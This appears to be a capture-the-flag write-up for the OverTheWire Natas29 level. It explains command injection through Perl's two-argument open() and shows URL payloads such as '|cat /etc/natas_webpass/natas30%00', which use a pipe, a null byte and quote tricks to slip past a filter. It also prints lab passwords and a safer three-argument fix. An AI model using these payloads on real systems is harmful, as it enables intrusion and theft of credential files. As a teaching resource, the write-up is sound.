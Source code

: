 ```yaml
---
category: natas
title: Natas29 - Vulnerability of open() in Perl
---
```


website: http://natas29.natas.labs.overthewire.org/ (password: airooCaiseiyee8he8xongien9euhe8b)


In this challenge, a dropdown menu is provided. By selecting an option, a corresponding page is displayed.
In the URL, I saw "http://natas29.natas.labs.overthewire.org/index.pl?file=perl+underground", which means the CGI is written in Perl and a file name is provided into that Perl script.
That immediately reminds me of a command injection.
As a test drive, I typed in the URL "http://natas29.natas.labs.overthewire.org/index.pl?file=\|pwd%00".
That URL returns "/var/www/natas/natas29", which is a good sign.

In the above input, the `%00` is a URL encoding of ASCII value 0 (i.e., the terminator '\0' in many programming lanaguages).
When it appears in a URL, everything behind it will be dropped.
For example, "http://my.example.com/upload/?filename=test.php%00.txt" is equivalent to "http://my.example.com/upload/?filename=test.php". 
This is a popular trick to bypass file extensions for hackers. We will revisit it later.

Trying another parameter "?file=\|ls%00" returns a list of files in the directory, including the file "index.pl".


My next step is to dump the script "index.pl" by injecting the command `cat index.pl`.
To achieve the goal, I provided the parameter "?file=cat%20index.pl%00", where "%20" is a url encoding of space.
You can also use the character '+' to replace "%20" in a URL.
This command injection shows us the source code of "index.pl", part of which is given below:

```perl
#!/usr/bin/perl
...
if(param('file')){
    $f=param('file');
    if($f=~/natas/){
        print "meeeeeep!<br>";
    }
    else{
        open(FD, "$f.txt");
        print "<pre>";
        while (<FD>){
            print CGI::escapeHTML($_);
        }
        print "</pre>";
    }
}
```

To show natas30's password, you will need to inject the command "cat /etc/natas_webpass/natas30".
However, as shown above, the keyword "natas" is escaped,
so we cannot feed the parameter with "?file=|cat%20/etc/natas_webpass/natas30%00".
To workaround it, I fed "?file=|cat%20/etc/na\'\'tas_webpass/nat\'\'as30%00", which returned the password <small>wie9iexae0Daihohv8vuu3cei9wahf0e</small>.

<strong>How it works</strong>

The reason we can launch a command injection against this code is because of the `open()` function in Perl.
This function can be used for command execution by prefixing the filename with a pipe (i.e., "\|").
For example:
```plain
$ perl -e 'open($fd, "|pwd");'
/tmp
```

That's why we feed something like "?file=\|pwd" in the URL.
However, because the source code `open(FD, "$f.txt");` has a file extension ".txt",
it will try to execute the file "pwd.txt", which is impossible.
To bypass the file extension, we append "%00" at the end in the URL, i.e. "?file=\|pwd%00".
Remember the trick we mentioned earlier? "%00" is the url encoding of the terminator '\0'.
When a Perl script sees the terminator, it will ignore the rest part.
Let's look at an example:
```plain
$ perl -e 'open($fd, "|pwd.txt") || die "Failed";'
Failed at -e line 1.

$ perl -e 'open($fd, "|pwd\0.txt") || die "Failed";'
/tmp
```

The second execution succeeded because of the terminator '\0'.



<strong>CONCLUSION</strong>

This challenge covers a few vulnerabilities:

1. The `open()` function is vulnerable to command injection if not used correctly.
In fact, this function has different forms.
To prevent a command injection, a much safer way is to use the 3-parameter form (see an example below).


2. Once "%00" appears in a URL, it's equivalent to a null terminator. Everything behind it will be ignored.
This can be used to bypass file extension restricts.

```plain
    $ perl -e 'open($fd, "|pwd") or die "Failed"'
    /tmp
    $ perl -e 'open($fd, "<", "|pwd") or die "Failed"'
    Failed at -e line 1.
```

<strong>Reference</strong>
1. <a href="https://perldoc.perl.org/functions/open">Perl document: open</a>
2. <a href="https://www.shlomifish.org/lecture/Perl/Newbies/lecture4/processes/opens.html">open() for Command Execution</a>
